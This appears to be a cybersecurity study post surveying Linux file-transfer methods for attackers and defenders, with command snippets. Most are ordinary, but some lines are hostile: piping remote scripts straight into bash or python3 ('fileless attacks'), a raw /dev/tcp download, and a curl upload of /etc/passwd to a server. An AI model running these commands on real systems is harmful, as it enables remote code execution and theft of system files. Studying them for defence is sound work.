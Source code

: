 ```yaml
---
title: "Linux File Transfer Methods"
date: 2025-03-16
tags: [Linux, File Transfer, Security]
categories: [Cybersecurity, Linux]
pinned: false
---
```


## Overview
Linux provides various methods for transferring files, essential for both attackers and defenders in cybersecurity. Understanding these methods helps in securing systems and preventing unauthorized file transfers.

## Common File Transfer Methods
### 1. **Base64 Encoding/Decoding**
Used for transferring files without network communication. Encode files into a Base64 string, transfer via terminal, and decode on the target machine.

```bash
# Encode
cat file.txt | base64 -w 0; echo

# Decode
echo -n 'encoded_string' | base64 -d > file.txt
```

### 2. **Web Downloads with Wget and cURL**
Two widely used utilities for downloading files from the web.

```bash
# Using wget
download_url="https://example.com/file.sh"
wget -O /tmp/file.sh $download_url

# Using curl
curl -o /tmp/file.sh $download_url
```

### 3. **Fileless Attacks**
Execute scripts directly without saving to disk.

```bash
# Execute script directly from URL
curl https://example.com/script.sh | bash
wget -qO- https://example.com/script.py | python3
```

### 4. **Bash (/dev/tcp) Download**
Useful when no traditional tools are available.

```bash
# Establish connection
exec 3<>/dev/tcp/target_ip/80
# Request file
echo -e "GET /file.sh HTTP/1.1\n\n" >&3
# Read response
cat <&3
```

### 5. **SSH-Based Transfers**
Securely transfer files between systems using SCP.

```bash
# Download file from remote server
scp user@remote:/path/to/file .

# Upload file to remote server
scp file.txt user@remote:/path/to/destination
```

## Upload Operations
### 1. **Web Uploads with Curl**
Upload files using HTTP POST requests.

```bash
curl -X POST https://server/upload -F 'file=@/etc/passwd' --insecure
```

### 2. **Hosting a Temporary Web Server**
Start a simple web server for file transfer.

```bash
# Python 3
python3 -m http.server 8000

# PHP
php -S 0.0.0.0:8000
```

## Conclusion
Understanding Linux file transfer methods is crucial for cybersecurity professionals. Attackers leverage these techniques for infiltration, while defenders must monitor and mitigate risks effectively.


